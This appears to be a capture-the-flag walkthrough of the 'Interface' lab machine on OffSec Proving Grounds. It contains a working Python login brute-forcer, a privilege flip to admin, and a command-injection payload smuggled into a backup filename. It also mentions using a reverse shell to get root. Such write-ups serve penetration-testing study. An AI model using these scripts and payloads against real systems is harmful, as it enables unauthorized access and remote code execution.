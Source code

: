 ```yaml
---
title: Iterface Easy box on OffSec Proving Grounds - OSCP Preparation.
tags: [oscp easy box, PG easy box, enumeration, API, RCE, linux]
categories: [OSCP, Proving Grounds]
comments: true
date: 2022-01-21 09:33:00
---
```


Hello,

We are going to exploit one of [OffSec Proving Grounds](https://portal.offensive-security.com/proving-grounds/play) Medium machines which called `Interface` and this post is not a fully detailed walkthrough, I will just go through the important points during the exploit process.

## Enumeration:
- Nmap:
![image](/assets/img/sample/pg-interface/nmap.png)

- port `80` is running a node.js app
- We can get the full list of users from: http://interface.pg/api/users.

- Running `ffuf` on http://interface.pg/api/ gives us some other endpoints:
	* `/backup` , Status code: 401
	* `/settings`, Status code: 401

- bruteforce the login page with this script (you can use hydra or other tools for that!):

```python
#!/usr/bin/env python

from concurrent.futures import ThreadPoolExecutor as executor
import requests,sys


headers = {"Content-Type": "application/json", "Host": "interface.pg"}


def printer(url):
	sys.stdout.write(url+"                                                                       \r")
	sys.stdout.flush()
	return True

#@snoop
def Login(USERNAME, PASSWORD):
	printer("Trying: "+USERNAME+":"+PASSWORD)
	data = {"username":"USERNAME", "password":"PASSWORD"}
	data['username'] = USERNAME
	data['password'] = PASSWORD
	req = requests.post("http://interface.pg/login", json=data, headers=headers)
	if req.status_code != 401:
		print(str(req.status_code)+" | Creds> "+USERNAME+":"+PASSWORD)
		print('\n')
		exit(0)


users = open('users.txt', 'r')
for user in users:
	USERNAME = user.strip('\n')
	passwds = open('/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt', 'r')
	with executor(max_workers=20) as exe:
		[exe.submit(Login, USERNAME, passwd.strip('\n')) for passwd in passwds]

``` 

- We got a valid Credentials:
	* User: `dev-acct`
	* Pass: `password`

![image](/assets/img/sample/pg-interface/creds.png)

- Now we can access `/api/settings` endpoint:
![image](/assets/img/sample/pg-interface/access-settings.png)

- if you take a look at the response from the picture above you will notice that `"admin":false` looks juicy, let's try to get admin access:
![image](/assets/img/sample/pg-interface/admin.png)

- Now since we have admin privilege, we can access `/api/backup` endpoint.

## Command Injection:
- apparently the application takes a filename and create a backup, let's try and exploit that:
> Checking the RCE with this payload: `; ping -c 3 MY_IP_ADDRESS;`

![image](/assets/img/sample/pg-interface/rce.png)

* I got the ping hits on my local machine which confirms the RCE:
![image](/assets/img/sample/pg-interface/ping.png)


- I used a bash reverse shell [payload](https://bing0o.github.io/posts/reverse-shell-generator/) to get a shell as root:

![image](/assets/img/sample/pg-interface/root.png)

Happy Hacking!